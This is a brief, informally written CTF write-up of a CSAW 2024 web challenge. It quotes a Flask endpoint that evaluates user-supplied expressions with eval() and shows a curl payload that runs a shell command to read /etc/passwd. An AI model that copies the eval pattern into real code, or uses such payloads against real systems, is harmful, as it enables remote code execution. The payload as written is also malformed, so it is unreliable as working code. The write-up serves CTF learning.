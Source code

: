 # CSAW_Writeup
## Playing on the Back courts Writeup
## Catgroy: WEB
## CSAW CTF Qualification 2024
lets skip laplapla and dive deep into #Exploit

{%with HINT%}


as you can see from orginal challnge code "/app_public.py"
you can see this itrset route:

```
@app.route('/get_eval', methods=['POST'])
def get_eval() -> Flask.response_class:
    try:
        data = request.json
        expr = data['expr']
        
        return jsonify(status='success', result=deep_eval(expr))
    
    except Exception as e:
        return jsonify(status='error', reason=str(e))
```
hmmm! look wired its not possible to be esay like this rigth ??!
lets see the ``` deep_eval() ``` function

```
def deep_eval(expr:str) -> str:
    try:
        nexpr = eval(expr)
    except Exception as e:
        return expr
    
    return deep_eval(nexpr)
```

whaaaaaaaaaaaaaaat he realy execute our code !?
okay we will just send our python to get executed
lets do it

```
bash
$ python3 app_public.py
$ curl 127.0.0.1:5000/get_eval -d '{"expr": "__import_('os').popen('cat /etc/passswd').read()"}' 
```
DO WE Get it ~~!!?


{%HINTEND%}

